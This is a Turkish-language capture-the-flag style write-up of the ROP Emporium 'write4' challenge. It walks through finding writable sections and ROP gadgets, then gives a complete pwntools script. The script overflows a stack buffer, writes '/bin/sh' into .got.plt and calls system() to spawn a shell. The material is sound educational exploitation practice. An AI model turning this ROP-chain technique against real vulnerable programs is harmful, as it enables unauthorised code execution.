

# ROP Emporium `write4` Writeup


x64 mimaride dosyamızı indirdikten sonra programımızın sayfasında detaylara bakabiliriz. Kısaca bize `system()` fonksiyonun mevcut olduğunu ancak `/bin/cat flag.txt` stringini içeren bir değişken olmadığı için elle registerlara `/bin/sh` stringini kaydedip daha sonra bunu `system()` fonksiyonumuzun içerisine gönderebileceğimiz söylenmiş. Ancak bir önceki seviyelerden farklı olarak burada komutumuzu bir registera yazdıktan sonra bunu direk kullanmak yerine dinamik olarak yüklenmiş kütüphanelere kaydetmemiz beklenmektedir. Bunun için üzerine yazabilme yetkimiz olan hangi bölümler varmış bakalım.

    readelf -t write4


Yazma yetkimizin olduğu ve içerisinde yeteri kadar alan bulunan `.dynamic` ve `.got.plt` olmak üzere iki tane alanımız mevcut. Bu iki adresten birini kullanabiliriz. Şimdi `system` fonksiyonumuzun adresini öğrenelim.

    objdump -d write4 | grep "system"


Artık argüman görevi görmeyen 2 tane register belirleyip ilkinin üzerine dinamik olarak yüklenen kütüphane adresimizi ve ikinci argümanımızın üzerine `/bin/sh` komutumuzu yazacağız.

```bash

gdb-peda$ ropsearch "pop r14"
Searching for ROP gadget: 'pop r14' in: binary ranges
0x00400890 : (b'415e415fc3')	pop r14; pop r15; ret

```

```python
# ROP Emporium write4 Exploit
from pwn import *

got_plt = p64(0x00601000)
system = p64(0x4005e0)
pop_r14_r15 = p64(0x00400890)

offset = ('A'*40).encode()
bash = "/bin/sh\x00"

payload = offset
payload += pop_r14_r15
payload += got_plt
payload += bash.encode()

```

r14 ve r15 registerları üzerine istediğimiz adres ve komutu yazdık. Ancak komutumuzun `.got.plt` içerisine yazabilmek için `mov r14, r15` komutuna ihtiyacımız var. Ancak böyle bir komutu `ropsearch` ile arattığımızda bulamıyoruz. Ama `objdump` çıktısını dikkatlı incelersek `usefulGadget` isimli bir fonksiyon dikkatimizi çekiyor.


Aradığımız işlemi yapan bir komut bulduk :)

```python
# ROP Emporium write4 Exploit
from pwn import *

got_plt = p64(0x00601000) # .got.plt address
system = p64(0x4005e0) # system@plt address
pop_r14_r15 = p64(0x00400890) # pop r14; pop r15; ret
r15_to_r14 = p64(0x00400820) # mov qword ptr [r14], r15

offset = ('A'*40).encode()
bash = "/bin/sh\x00"

payload = offset
payload += pop_r14_r15
payload += got_plt
payload += bash.encode()
payload += r15_to_r14

```

`.got.plt` içerisine `/bin/sh` komutumuzu yazdık artık x64 mimaride ilk argümanı alan `rdi` registerı üzerine `got_plt` adresimizi verdikten sonra `system` fonksiyonumuzu çağırabiliriz. Bunun için öncelikle `pop rdi; ret` işlemi yapan bir gadget var mı bakalım.

```bash

gdb-peda$ ropsearch "pop rdi"
Searching for ROP gadget: 'pop rdi' in: binary ranges
0x00400893 : (b'5fc3')	pop rdi; ret

```

Evet aradığımız işlemi yapan bir adres bulduk. Artık exploitimizin son halini yazabiliriz :)

```python
# ROP Emporium write4 Exploit
from pwn import *

got_plt = p64(0x00601000) # .got.plt address
system = p64(0x4005e0) # system@plt address
pop_r14_r15 = p64(0x00400890) # pop r14; pop r15; ret
r15_to_r14 = p64(0x00400820) # mov qword ptr [r14], r15
pop_rdi = p64(0x00400893) # pop rdi; ret

offset = ('A'*40).encode()
bash = "/bin/sh\x00"

payload = offset
payload += pop_r14_r15
payload += got_plt
payload += bash.encode()
payload += r15_to_r14
payload += pop_rdi
payload += got_plt
payload += system

elf = process('write4')
print (elf.recv())
elf.sendline(payload)
elf.interactive()

```




`NOT : ` python3 ' de `str` ve `byte` tipindeki değişkenleri python2 ' de olduğu gibi direk birleştiremiyoruz. Bunun için `str` tipinde olan değişkenimizin sonuna `.encode()` eklememiz gerekmektedir.
